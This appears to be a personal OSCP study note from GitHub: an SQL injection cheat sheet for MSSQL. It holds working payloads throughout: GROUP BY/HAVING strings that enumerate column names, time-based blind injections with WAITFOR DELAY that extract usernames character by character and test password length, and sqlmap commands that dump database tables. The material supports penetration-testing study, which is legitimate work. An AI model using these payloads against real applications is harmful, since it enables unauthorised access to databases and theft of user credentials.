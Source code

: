 #### :open_file_folder: References

- https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
- https://notchxor.github.io/oscp-notes/2-web/sqli/
- https://www.asciitable.com/

#### :open_file_folder: Blind SQL Injections

find columns names

```SQL
' HAVING 1=1 --
' GROUP BY table.column1 HAVING 1=1 --
' GROUP BY table.column1, column2 HAVING 1=1 --
' GROUP BY table.column1, column2, column3(n) HAVING 1=1 -- and so on
```

use the waiting time to determine whether the conditional equation is valid

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 97) WAITFOR DELAY '00:00:05' --
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 98) WAITFOR DELAY '00:00:05' -- and so on

-- e.g. confirm username is correct
'; IF (substring((select TOP 1 username from users), 1, 5) = 'admin') WAITFOR DELAY '00:00:05'--
```

```SQL
-- check column length
'; IF (select LEN(password) from users) = 64 WAITFOR DELAY '00:00:05' --
```

#### :no_entry: sqlmap (:radioactive::radioactive::radioactive: cannot be used in the exam)

```
sqlmap -u "url" --dump -C "columns" -T "tables" -D "database" 
sqlmap -r post.txt -p "parameter_name" --dump -C "columns" -T "tables" -D "database"
```

post.txt = request contents

![SQLi_2022 02 28_19h37m55s_001](https://user-images.githubusercontent.com/8998412/155977929-7e38d3bb-8d61-4afa-af6b-90ae1e13ec73.png)

